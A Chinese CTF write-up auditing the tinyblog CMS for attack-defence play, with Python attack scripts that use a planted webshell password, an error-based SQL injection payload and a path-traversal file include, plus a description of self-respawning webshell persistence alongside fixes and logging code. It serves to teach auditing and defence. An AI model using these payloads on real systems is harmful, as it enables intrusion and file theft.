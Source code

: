 ```yaml
---
layout: post
title: CTF tinyblog代码审计
category: security
tags: [代码审计]
keywords: 代码审计,AWD
description: CTF tinyblog代码审计
---  
```


## CTF tinyblog代码审计  
      
本篇原创文章首发安全客：https://www.anquanke.com/post/id/100991  
前段时间参加了某次CTF线下赛，大多数比赛都是采用主流CMS系统，比如wordpress、pgpcms、dedecms等等，如果对主流CMS漏洞比较熟悉的话可以迅速定位漏洞，发起攻击。而这次比赛采用了小众自写CMS的方式，注重现场快速代码审计。本文将介绍CTF线下赛AWD模式的一些常见套路，以及对tinyblog的代码审计思路。  
  

**一、预留后门**  
比赛开始，一般比赛方为了比赛的观赏性，一般都会预留后门，这样场上可以迅速打起来，展示画面比较好看，不然过了好几轮都没动静会比较尴尬。迅速找后门的套路一般是将比赛源代码首先备份下来，备份很关键，后面可能在修复漏洞或者被其他队伍攻击的时候服务会挂掉，没有备份很难恢复过来。利用webshell检测工具D盾、河马等对备份进行扫描，一般都可以发现预留后门：   
![ctf1](/assets/themes/images/tinyblog/1.PNG)  
查看一下预留后门内容：  
![ctf2](/assets/themes/images/tinyblog/2.PNG)  
虽然做了变形，但还是可以明显看出来是一句话木马，密码：abcde10db05bd4f6a24c94d7edde441d18545，尝试用菜刀去连：   
![ctf3](/assets/themes/images/tinyblog/3.PNG)  
在根目录下就可以得到flag内容。所以发现后门后需要迅速将自己的后门删掉，同时利用预留后门迅速发起第一波攻击，用菜刀手工连接显然是来不及的，因此需要自动化的攻击脚本：  

	1.	def backdoor(host):  
	2.	    r = requests.post(url="http://%s/Upload/index.php"%host,data={"abcde10db05bd4f6a24c94d7edde441d18545":"print('>>>'.file_get_contents('/flag').'<<<');"})  
	3.	    flags = re.findall(r'>>>(.+?)<<<',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!" 


  
**二、后台SQL注入**  
接下来，对各种用户交互的地方进行渗透测试，发现在用户登录处存在SQL注入漏洞，在登录名出加’进行测试：    

![ctf5](/assets/themes/images/tinyblog/5.PNG)  
发现报错：  
![ctf6](/assets/themes/images/tinyblog/6.PNG)  
估计存在SQL注入的可能性比较大，审计一下源代码，在Model/Admin.php第16行发现SQL拼接，并且没有任何防护措施：  
![ctf7](/assets/themes/images/tinyblog/7.PNG)   
因此这里可以直接用SQLmap跑：  
![ctf8](/assets/themes/images/tinyblog/8.PNG)  
然后利用--sql-shell选项，执行 select load_file(‘/flag’)即可获得flag：  
![ctf9](/assets/themes/images/tinyblog/9.PNG)   
这里注意一下sqlmap的缓存机制，因为flag每一轮都会变化，如果新一轮继续直接跑的话获得的flag仍然是上一轮的，因此每轮还需要增加--flush-session参数。  
当然也可以直接现场编写payload：  
  
	1.	def sqli(host):  
	2.	    r = requests.post(url="http://%s/?p=admin&a=login"%host,data={"email":"'||(SELECT updatexml(1,concat(0x7e,(select load_file('/flag')),0x7e),1))||'","password":"pwd123"})  
	3.	    flags = re.findall(r'~(.+?)~',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!"  

修复的话，需要将Admin.php中出问题的代码用预编译的方式进行修复，即：   

	1.	//fix by tinyfisher  
	2.	$oStmt = $this->oDb->prepare("SELECT email, password FROM Admins WHERE email = ? LIMIT 1");  
	3.	$oStmt->execute($sEmail); 


**三、文件包含**  

这个漏洞利用黑盒测试是很难测出来，必须通过代码审计才能发现，这里我主要用的工具是seay的源代码审计工具，首先将备份文件自动审计一下：  
![ctf12](/assets/themes/images/tinyblog/10.PNG)   
这里发现漏洞并不多，可以一个一个跟进去看一下，问题出现在Engine/Router.php的第21行，直接include $sTemplatePath，而：
$sTemplatePath = ROOT_PATH . 'Template/' . $aParams['template'];
所以可以通过控制$aParams['template']来达到任意文件读取。  
![ctf13](/assets/themes/images/tinyblog/11.PNG)  
我们来全局查找一下这个参数：  
![ctf14](/assets/themes/images/tinyblog/12.PNG)    
发现在index.php的33行找到该参数    
![ctf15](/assets/themes/images/tinyblog/13.PNG)   
根据'template' => (!empty($_GET['t']) ? $_GET['t'] : 'pc')，get 参数中如果t为空，则t默认值为pc，因此我们可以控制t，进而控制$aParams['template']，来达到文件包含的效果，payload：/?t=../../../../../../../flag  
![ctf16](/assets/themes/images/tinyblog/14.PNG)   
自动攻击脚本：  

	1.	def include(host):  
	2.	    r = requests.get(url="http://%s/?t=../../../../../../flag"%host)  
	3.	    flags = re.findall(r'^(.+?)<',r.content)  
	4.	    if flags:  
	5.	        return flags[0]  
	6.	    else:  
	7.	        return "error pwn!"   

修复的话，过滤掉“.”和“/”来快速达到修复效果：
$sTemplatePath = str_replace(array(".","\/"), "", $sTemplatePath);  

**四、权限维持**  

对于上面的漏洞，如果其他队伍修复了就没有办法再次利用，因此需要进行权限维持，不然后期就再也得不到分了。常见的权限维持手段是“不死马”，也就是上传一个php文件不断生成webshell：  
![ctf18](/assets/themes/images/tinyblog/15.PNG)   
访问这个php文件之后，会在目录下生成一个.config.php的一句话木马，之所以叫.config.php一方面是隐藏文件，另一方面config这个名字容易掩护自己。里面的内容之所以做了变形处理，也是为了防止其他选手“借刀杀人”，利用自己的shell去攻击其他队伍。  

php中ignore_user_abort（） 可以实现当客户端关闭后仍然可以执行PHP代码，可保持PHP进程一直在执行，可实现所谓的计划任务功能与持续进程，只需要开启执行脚本，除非 apache等服务器重启或有脚本有输出，该PHP脚本将一直处于执行的状态，因此就可以一直生成一句话木马，用来维持权限。  
  

**五、借刀杀人**  

比赛当中如果一直被高手打，而又找不到漏洞所在，有没有其他手段可以缩小差距？我们可以监控流量和日志来找到攻击payload，然后利用这个payload攻击其他队伍。比如发现自己被种上了不死马，没有办法杀掉怎么办？那就继续将这个不死马发扬光大，一般攻击者上传的文件路径和内容都是一致的，你被种了不死马意味着在其他队伍的相同位置下也存在不死马，所以直接去利用他得分吧。  

流量监控这块，可以在靶机上抓一下流量：  
tcpdump –s 0 –w flow.pcap port xxxx  
然后在自己的机器上去分析flow.pcap这个文件，一般就可以看到其他队伍的攻击payload，web和pwn都可以使用这个方法。  


![ctf19](/assets/themes/images/tinyblog/16.png)   


日志监控这块主要是为了网站访问记录，便于后续的问题排查，就是把各种字段的数据记录下来，包括请求的文件、时间、IP、访问的文件、POST的内容等等。  

	1.	date_default_timezone_set('Asia/Shanghai');  
	2.	$ip        = $_SERVER["REMOTE_ADDR"];   //访问IP  
	3.	$filename  = $_SERVER['PHP_SELF'];  //访问的文件  
	4.	$parameter = $_SERVER["QUERY_STRING"];  //查询的字符串  
	5.	$method    = $_SERVER['REQUEST_METHOD']; //请求方法  
	6.	...  
	7.	$time      =  date('Y-m-d H:i:s',time()); //请求时间  
	8.	$post      = file_get_contents("php://input",'r'); //接收POST数据  
	9.	$others    = '**********************************************************************';  
	10.	$logadd    = '访问时间：'.$time.'访问IP:'.$ip.'请求方法：'.$method.' '.'访问链接：'.$filename.'?'.$parameter."\r\n";...  
	11.	//记录写入  
	12.	$fh = fopen("log.txt", "a");  
	13.	fwrite($fh, $logadd);  
	14.	fwrite($fh,print_r($_COOKIE, true)."\r\n");  
	15.	fwrite($fh,$others."\r\n");  
	16.	fclose($fh); 


  


附：  
比赛源代码下载  
链接：https://pan.baidu.com/s/1bqZbLi3 密码：fagg  

